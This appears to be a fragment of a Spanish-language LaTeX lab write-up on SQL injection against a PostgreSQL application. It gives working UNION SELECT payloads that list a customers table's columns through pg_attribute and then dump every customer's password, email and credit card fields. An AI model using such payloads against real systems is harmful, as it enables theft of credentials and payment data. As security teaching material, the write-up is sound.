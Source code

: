 \documentclass{article}
\begin{document}
En primer lugar se halla el oid de la tabla de interes. Si nos fijamos, la entrada anterior imprimía el oid de la tabla, por lo cual basta fijarse en el oid 20692.

Con este oid, se pretende buscar en la tabla \texttt{pg\_attribute}. Para ello, se vuelve a realizar otra consulta con otra entrada:
\begin{lstlisting}
a' union select attname || ' ' || attrelid from pg_attribute where attrelid=20692 and '1'='1
\end{lstlisting}
Y el resultado es:
\begin{lstlisting}
    address2 20692
    creditcardexpiration 20692
    address1 20692
    cmin 20692
    country 20692
    age 20692
    customerid 20692
    xmin 20692
    city 20692
    password 20692
    tableoid 20692
    ctid 20692
    credit 20692
    state 20692
    zip 20692
    phone 20692
    cmax 20692
    region 20692
    lastname 20692
    email 20692
    creditcard 20692
    creditcardtype 20692
    firstname 20692
    username 20692
    gender 20692
    xmax 20692
\end{lstlisting}
{\footnotesize Salida completa en \texttt{atributos\_customer.html}}

Por último, se utiliza esto para imprimir la lista de todos los clientes con todos sus datos usando la siquiente entrada:

\begin{lstlisting}
a' union select address2 || ' ' || creditcardexpiration || ' ' || address1 || ' ' || cmin || ' ' || country || ' ' || age || ' ' || customerid || ' ' || xmin || ' ' || city || ' ' || password || ' ' || tableoid || ' ' || ctid || ' ' || credit || ' ' || state || ' ' || zip || ' ' || phone || ' ' || cmax || ' ' || region || ' ' || lastname || ' ' || email || ' ' || creditcard || ' ' || creditcardtype || ' ' || firstname || ' ' || username || ' ' || gender || ' ' || xmax from customers where '1'='1
\end{lstlisting}
\end{document}
